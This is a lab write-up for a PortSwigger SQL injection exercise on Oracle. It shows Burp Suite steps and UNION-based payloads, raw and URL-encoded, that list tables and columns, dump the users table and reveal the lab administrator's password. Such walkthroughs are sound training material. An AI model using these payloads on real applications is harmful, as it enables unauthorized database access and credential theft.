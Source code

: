 
# SQL injection attack, listing the database contents on Oracle

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

___

**NOTE:** information schema on Oracle
`SELECT * FROM all_tables` => for listing all tables
`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'` => for listing all columns

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=gifts` => send to repeater

![screnshot](./images/lab10_repeater_category_gifts.png)

step 2

`SELECT * FROM all_tables`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,TABLE_NAME FROM all_tables--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--
```

`/filter?category=Gifts'+UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables--`

![screnshot](./images/lab10_user_table.png)

Table => `USERS_CACPFH`


step 3

`SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS_CACPFH'--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_CACPFH'--
```

`/filter?category=Gifts'+UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_CACPFH'--`

![screnshot](./images/lab10_user_id_password.png)

Username => `USERNAME_WJPEXO`  Password => `PASSWORD_FJKSKF`

step 4

`SELECT * FROM Users`
Rewrite payload using UNION
```sql
' UNION SELECT USERNAME_WJPEXO,PASSWORD_FJKSKF FROM USERS_CACPFH--
```

convert to URL Encoded
```sql
'+UNION+SELECT+USERNAME_WJPEXO,PASSWORD_FJKSKF+FROM+USERS_CACPFH--
```

`/filter?category=Gifts'+UNION+SELECT+USERNAME_WJPEXO,PASSWORD_FJKSKF+FROM+USERS_CACPFH--`

![screnshot](./images/lab10_administraor_id_password.png)

step 5

To solve the lab use administrator id and password
```html
<tr>
	<th>administrator</th>
	<td>611i0vz9if47ecz8bsut</td>
</tr>
```

![screnshot](./images/lab10_solved_lab.png)